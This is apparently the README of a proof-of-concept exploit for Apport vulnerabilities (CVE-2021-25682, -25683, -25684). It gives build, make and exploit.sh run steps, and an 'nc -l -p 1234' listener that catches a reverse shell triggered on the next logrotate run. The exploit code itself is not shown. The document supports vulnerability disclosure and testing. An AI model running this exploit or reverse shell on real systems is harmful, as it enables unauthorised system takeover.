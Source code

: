 # POC for Apport exploit (CVE-2021-25682 / CVE-2021-25683 / CVE-2021-25684)
This is a POC for Apport exploit, we exploited these bugs by launching a reverse shell to 127.0.0.1:1234.

## Setup

To compile the exploit code several packages are needed:

```bash
sudo apt-get install build-essential nasm gcc
```

## Compilation
```bash
make
```

## Run

```bash
./exploit.sh
```

The reverse shell will connect on the next execution of logrotate

```bash
nc -l -p 1234
```
